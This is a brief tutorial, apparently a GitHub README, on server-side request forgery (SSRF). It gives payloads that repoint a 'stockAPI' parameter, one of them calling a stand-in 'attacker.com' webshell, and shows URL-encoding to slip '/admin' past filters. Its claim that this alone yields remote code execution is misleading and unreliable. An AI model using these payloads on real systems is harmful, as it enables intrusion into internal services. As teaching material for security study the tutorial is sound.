 <h2>SSRF - Server Side Request Forgery.
One of the best vulnerabilities (in my opinion) as this can have unlimited impact. From accessing internal files, like admin panels, to sending a request to your own controlled server and requesting your own file</h2>

---
<h3>Basic examples are:</h3>

```stockAPI=http://fbi.com/clothing/shirts=shirts123```

As You can see, the stockAPI is making a request to to it's API/Server. We can change this so that the stockAPI makes a request to our controlled server/internal file/internal link (like /admin)

```StockAPI=http://attacker.com/webshell.php?command=id```

And with this simple case, we have achieved Webshell RCE.

---
<h3>Encoding Payloads</h3>
Now, SSRF is not a secret, so some websites may filter certain characters or increase security.

To bypass firewalls, we can encode our payloads or find alternatives
(like you could bypass XSS with prompt() rather than alert() )

For example:
```stockAPI=http://fbi.com/admin/``` 
Could get picked up and blocked!

But if you try encoding(URL | HTML) some characters, it should allow you to bypass the filtering!
```stockAPI=http://fbi.com/%41dmin/```
